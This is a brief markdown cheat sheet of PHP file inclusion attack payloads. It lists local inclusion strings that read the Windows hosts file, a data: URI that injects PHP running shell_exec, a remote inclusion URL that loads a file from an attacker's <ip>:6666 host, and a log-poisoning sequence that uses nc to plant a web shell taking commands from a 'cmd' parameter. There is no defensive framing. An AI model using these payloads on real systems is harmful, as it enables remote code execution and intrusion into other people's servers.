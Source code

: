 # php

## file inclusion

    # local
    index.php?file=C:\Windows\System32\drivers\etc\hosts
    index.php?file=data:text/plain,<?php echo shell_exec("help")?>

    # remote
    index.php?file=http://<ip>:6666/toto.txt&arg=value

## log files

    # send to remote
    nc -nv <ip> 80
    <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

    # use from remote
    index.php?file=C:\file.log&cmd=dir

